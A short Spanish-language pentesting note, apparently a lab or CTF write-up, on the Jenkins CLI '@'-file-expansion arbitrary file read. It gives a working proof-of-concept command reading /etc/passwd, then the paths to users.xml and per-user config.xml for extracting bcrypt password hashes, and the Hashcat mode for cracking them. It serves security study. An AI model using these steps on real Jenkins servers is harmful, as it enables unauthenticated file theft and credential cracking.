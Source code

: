 Jenkins 2.441 y anteriores, LTS 2.426.2 y anteriores no desactivan una función de su analizador de comandos CLI que reemplaza un carácter '@' seguido de una ruta de archivo en un argumento con el contenido del archivo, lo que permite a atacantes no autenticados leer archivos arbitrarios en el sistema de archivos del controlador Jenkins.

PoC:

`java -jar jenkins-cli.jar -s http://10.10.11.10:8080 delete-job @/etc/passwd 2>&1 | grep -oP "'.*?'"`

![image](https://github.com/SrMeirins/KnowledgeVault/assets/95763783/099ecadf-8826-42bf-89fa-ad037b08657f)

Como aprovecharnos de esto? --> Podemos ir a la ruta donde por defecto están las contraseñas encriptadas de los usuarios y si podemos intentar crackearlas.
La ruta va a ser dinámica ya que tenemos un archivo común llamado `users.xml` donde va a indicarse cuales son las rutas de los usuarios (nombre + cadena numerica). La ruta completa es: `/var/jenkins_home/users/users.xml`.

Una vez tengamos el nombre completo de la ruta del usuario, vamos a centrarnos en este archivo: `/var/jenkins_home/users/userrandom_12108429903186576833/config.xml`. Si filtramos por _password_, vamos a ver una contraseña cifrada:

![image](https://github.com/SrMeirins/KnowledgeVault/assets/95763783/191c119b-7b59-4abe-a21f-3bfef6f2649b)

Para crackearlo con HashCat, el identificador es 3200 (bcrypt).
